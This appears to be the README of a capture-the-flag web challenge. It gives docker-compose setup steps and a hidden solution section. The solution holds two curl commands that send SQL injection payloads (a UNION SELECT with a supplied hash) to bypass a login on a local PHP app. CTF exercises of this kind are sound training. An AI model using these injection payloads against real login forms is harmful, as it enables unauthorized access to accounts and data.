 # Klaus is blind and has no sleep

# How to setup
sudo docker-compose up  
Open your Browser: http://localhost:8080/?src to get the source code of the challenge  
(if you change something and want to recreate the container: sudo docker-compose build --force-rm ) 

# Why Klaus?
I don't know  


<details><summary>Solution</summary>
<p>

```bash
curl localhost:8080/index.php -d 'password[]' -d "username=-1' union select 1,NULL-- -" 
curl localhost:8080/index.php -d 'password=test123' -d "username=-1' union select 1,'7288edd0fc3ffcbe93a0cf06e3568e28521687bc'-- -"
```
</p>
</details>

